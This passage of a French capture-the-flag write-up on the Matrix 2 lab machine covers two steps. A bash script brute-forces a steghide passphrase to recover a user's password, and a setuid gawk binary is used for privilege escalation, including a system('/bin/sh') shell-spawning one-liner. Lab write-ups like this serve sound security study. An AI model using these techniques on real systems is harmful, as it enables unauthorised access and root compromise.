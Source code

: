 ```console
root@blinils:~# cat test_password_steghide.sh 
#!/bin/bash
for WORD in `cat dicoMatrix2.txt`
do
	steghide extract -sf h1dd3n.jpg -p "$WORD" 2>/dev/null
	if [[ $? = 0 ]]; then
			echo "[+] Found:" $WORD
		break
	fi
done

root@blinils:~# ./test_password_steghide.sh
[+] Found: n30

root@blinils:~# ls
dicoMatrix2.txt  h1dd3n.jpg  n30.txt  test_password_steghide.sh

root@blinils:~# cat n30.txt 
P4$$w0rd
```

Le mot de passe trouvé est bien celui de l'utilisateur ```n30``` !

```console
testuser@Matrix_2:/$ id
uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)

testuser@Matrix_2:/$ su - n30
Password: [P4$$w0rd]

n30@Matrix_2 ~$ id
uid=1000(n30) gid=1000(n30) groups=1000(n30)
```

## Élévation de privilèges avec le binaire morpheus (alias gawk)

L'historique des commandes Unix de l'utilisateur ```n30``` nous aiguille grandement pour la fin de ce CTF : en effet, les commandes ```ls -l /usr/bin/morpheus``` et ```morpheus 'BEGIN {system("/bin/sh")}'``` ont le don d'intriguer. Pour rappel, le binaire ```/usr/bin/morpheus``` possède le [bit setuid](https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/).

```console
n30@Matrix_2 ~$ ls -l /usr/bin/morpheus
-r-sr-x--- 1 root n30 662240 Dec  8  2018 /usr/bin/morpheus

n30@Matrix_2 ~$ /usr/bin/morpheus
Usage: morpheus [POSIX or GNU style options] -f progfile [--] file ...
Usage: morpheus [POSIX or GNU style options] [--] 'program' file ...
--snip--

To report bugs, see node `Bugs' in `gawk.info', which is
section `Reporting Problems and Bugs' in the printed version.

gawk is a pattern scanning and processing language.
By default it reads standard input and writes standard output.

Examples:
        gawk '{ sum += $1 }; END { print sum }' file
        gawk -F: '{ print $1 }' /etc/passwd
```
